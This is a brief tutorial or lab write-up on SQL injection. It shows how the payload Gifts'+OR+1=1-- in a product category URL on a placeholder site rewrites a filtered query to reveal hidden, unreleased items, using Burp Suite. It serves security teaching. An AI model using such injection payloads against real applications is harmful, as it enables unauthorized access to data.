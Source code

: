 
**RETRIEVING HIDDEN DATA**

 Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL:

https://insecure-website.com/products?category=Gifts
![image](https://user-images.githubusercontent.com/65653010/234719902-a56d2a68-07b1-4d5e-9819-454b53da76c5.png)


The query will be present in this format

SELECT * FROM products WHERE category = 'Gifts' AND released = 1, where
- '*' - all details

The restriction released = 1 is being used to hide products that are not released. For unreleased products, presumably released = 0

Now we perform the SQL Injection using Burpsuite
![image](https://user-images.githubusercontent.com/65653010/234720149-17a72c97-45e7-49e0-804e-daea069a3c3f.png)

 Now we can cause the application to display all the products in any category, including categories that they don't know about by initiating the fllowing query:
 
https://insecure-website.com/products?category=Gifts'+OR+1=1--
![image](https://user-images.githubusercontent.com/65653010/234722521-c06b3230-fa4a-4788-9820-e2c62df233f1.png)

Here, the query is changed to 

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items. 
